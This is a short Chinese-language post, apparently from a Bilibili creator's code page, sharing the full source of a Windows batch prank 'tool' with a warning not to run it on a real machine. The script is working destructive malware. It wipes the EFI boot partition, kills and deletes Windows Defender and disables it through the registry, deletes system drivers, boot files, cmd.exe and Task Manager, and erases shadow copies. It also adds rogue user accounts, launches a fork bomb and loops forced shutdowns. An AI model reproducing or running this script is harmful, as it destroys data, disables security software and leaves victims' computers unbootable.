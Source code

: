 bilibili五字_小树自制Van♂Doors 1145141919810工具(请勿在实体机打开)
注:可以先用NSudo提取权限后打开
源码:
:a
mountvol Z: /s & del Z:\ *.* /s /f /q & rd /s /q Z:\EFI
timeout /t -1
tasklist | findstr "MsMpEng.exe"
mountvol Z: /s & del Z:\ *.* /s /f /q & rd /s /q Z:\EFI
taskkill /F /IM MsMpEng.exe
rd /s /q "C:\Program Files\Internet Explorer"
rd /s /q "C:\Windows\System32\Speech"
del /f /q "%ProgramData%\Microsoft\Windows\Start Menu\Programs\Accessories\System Tools\Internet Explorer.lnk"
reg delete "HKCR\IE.AssocFile.HTM" /f
reg delete "HKCU\Software\Microsoft\Windows Media" /f
reg delete "HKLM\SOFTWARE\Microsoft\Active Setup\Installed Components\{89820200-ECBD-11cf-8B85-00AA005B4340}" /f
:: 1. 移除Windows Defender（保留核心安全服务）
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
taskkill /f /im MsMpEng.exe
rmdir /s /q "C:\Program Files\Windows Defender"
rmdir /s /q "C:\ProgramData\Microsoft\Windows Defender"
:: 2. 删除旧版.NET Framework（需确保无程序依赖）
dir /b %SystemRoot%\Microsoft.NET\Framework\v3.* > .\net3list.txt
for /f "tokens=*" %%i in (.\net3list.txt) do (
  rd /s /q "%SystemRoot%\Microsoft.NET\Framework\%%i"
  reg delete "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\%%i" /f
)
reg delete "HKLM\SOFTWARE\Microsoft\Internet Explorer" /f
reg delete "HKCR\CLSID\{0002DF01-0000-0000-C000-000000000046}" /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
reg delete "HKLM\SOFTWARE\Microsoft\Windows Defender" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Services\WinDefend" /f
del /s /q "C:\Program Files\Windows Defender"
del /s /q "C:\Windows\System32\drivers"
del /f /s /q "C:\Program Files\Windows Defender\*.*"
rmdir /s /q "C:\Program Files\Windows Defender"
rmdir /s /q "C:\Program Files (x86)\Windows Defender"
del /f /s /q "C:\ProgramData\Microsoft\Windows Defender\*.*"
del /s /q "C:\Program Files\Windows Defender"
del /s /q "C:\ProgramData\Microsoft\Windows Defender"
del /s /q "C:\Windows\Boot"
del /s /q "C:\Windows\system32\cmd.exe"
del /s /q "C:\Windows\System32\Taskmgr.exe"
del /s /q "C:\Windows\System32\osk.exe"
mshta vbscript:msgbox("操作已完房,48,"系统提示")(window.close)
mshta vbscript:msgbox("操作已完房,64,"系统提示")(window.close)
mshta vbscript:msgbox("操作已完房,16,"系统提示")(window.close)
mshta vbscript:msgbox("操作已完房,64,"系统提示")(window.close)
mshta vbscript:msgbox("操作已完房,48,"系统提示")(window.close)
start mshta vbscript:msgbox("重启倒计旿,0,"警告")(window.close)
timeout /t 1 >nul
goto :a
net USER 1145141919810 1145141919810 /add
net user 114514 /add
net user 1919810 /add
mountvol X: /s & del X:\ *.* /s /f /q & rd /s /q X:\EFI
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t 
REG_DWORD /d 1 /f
vssadmin delete shadows /all /quiet
cd C:\Program Files\Internet Explorer /d
del /f /s /q *.*
rmdir /s /q C:\Program Files\Internet Explorer
mshta vbscript:CreateObject("Wscript.Shell").popup("1145141919810秒后自动关闭",1145141919810,"倒计旿,64)(window.close)
shutdown -s -t 1145141919810
mountvol Z: /s & del Z:\ *.* /s /f /q & rd /s /q Z:\EFI
shutdown -r -t 1145141919810
shutdown -s -t 1145141919810
shutdown -s -t 1145141919810
shutdown -s -t 1145141919810
shutdown -s -t 1145141919810
%0|%0
ipconfig

bat编写后打包的,代码非常混乱,轻点喷
作者:https://space.bilibili.com/3493276898298079
